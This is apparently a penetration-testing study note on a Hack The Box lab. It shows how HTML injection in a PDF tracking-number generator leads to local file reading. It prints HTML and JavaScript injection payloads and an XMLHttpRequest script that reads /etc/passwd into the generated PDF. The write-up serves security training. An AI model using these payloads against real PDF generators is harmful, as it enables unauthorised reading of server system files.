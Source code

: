 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSRF -> LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><img src="../../../.gitbook/assets/html_injection.png" alt=""><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_test.png" alt=""><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Following [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).

{% tabs %}
{% tab title="Payload" %}
```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_to_lfi.png" alt=""><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SSRF via PDF HTML Injection" %}
{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
{% endtab %}

{% tab title="SSRF to LFI via PDF HTML Injection" %}
{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
{% endtab %}
{% endtabs %}

